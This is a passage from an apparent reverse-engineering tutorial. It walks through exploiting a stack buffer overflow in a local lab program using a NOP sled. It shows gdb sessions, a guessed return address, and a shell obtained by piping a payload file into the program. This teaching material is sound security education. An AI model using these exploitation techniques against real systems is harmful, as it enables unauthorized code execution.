 	* Now, let us run it with the payload: 

			rev_eng_series/post_12$ gdb -q bof
			Reading symbols from bof...(no debugging symbols found)...done.
			gdb-peda$ 

	* Look at this: 

			run < payload.txt 
			Starting program: /home/adwi/ALL/rev_eng_series/post_12/bof < payload.txt
			Before calling func
			process 6001 is executing new program: /bin/dash
			warning: the debug information found in "/lib64/ld-2.23.so" does not match "/lib64/ld-linux-x86-64.so.2" (CRC mismatch).

			[Inferior 1 (process 6001) exited normally]
			Warning: not running or target is remote
			gdb-peda$ 

	* Didn't debug, didn't do anything. It is successful. 

	* With gdb, we knew where the address was. 

	* Now that we know the shellcode along with nop-sled is working properly, let us go ahead and exploit the program without gdb. 

	* For once, let us go back to example one. There we printed the address of **buffer**. We will see the Address we got with and without gdb. In one of the instances, 

		* With gdb, Address of buffer = 0xffffcbb8
		* Without gdb, Address of buffer = 0xffffcbd8           
	
	* Look at the difference: It is 32 bytes. This difference is important because we will have a rough idea of how much the actual address deviates from address obtained from gdb. This is helpful in guessing the address.  

	* We will give the same Address - **0xffffc0af**. Let us see if this works.  

			rev_eng_series/post_12$ cat payload.txt - | ./bof
			Before calling func

			whoami
			adwi

			ls
			bof    build_payload	exploit.txt  shell32		  shell32_no_null.o
			bof.c  build_payload.c	payload.txt  shell32_no_null.asm

			who
			adwi     tty7         Dec  8 09:13 (:0)

	* Success!! We did it!

	* So, this is the strength nop-sled gives. 

	* We took help of gdb, had a large enough nop-sled and we got the shell without actually knowing the exact address. 

With this, we have successfully demonstrated exploitation of BOF along with nop-sled. 
